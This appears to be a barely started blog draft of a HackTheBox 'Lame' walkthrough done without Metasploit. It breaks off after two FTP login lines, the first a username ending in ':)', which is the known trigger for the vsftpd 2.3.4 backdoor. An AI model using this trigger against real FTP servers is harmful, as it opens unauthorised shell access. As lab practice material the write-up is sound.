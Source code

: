 ```yaml
---
title: HackTheBox - Lame
date: 2020-07-04 02:08:50
tags: [walkthrough, hackthebox]
---
```


# HackTheBox Lame Without Metasploit

This is a test

FTP Vuln research 
MSF isn't always too hard to interpret


ftp> USER abcdefg:)\r\n
ftp> PASS aasndo\r\n

nohup 